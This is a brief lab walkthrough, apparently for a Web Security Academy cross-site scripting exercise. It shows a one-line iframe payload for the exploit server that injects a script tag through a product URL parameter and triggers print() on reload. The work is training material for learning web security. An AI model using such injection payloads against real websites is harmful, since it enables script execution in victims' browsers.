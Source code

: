 
1. Click on any post, verify the following code

![](/static/img/Pasted_image_20231121124357.png)

2. Add the following payload inside exploit sever;

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```

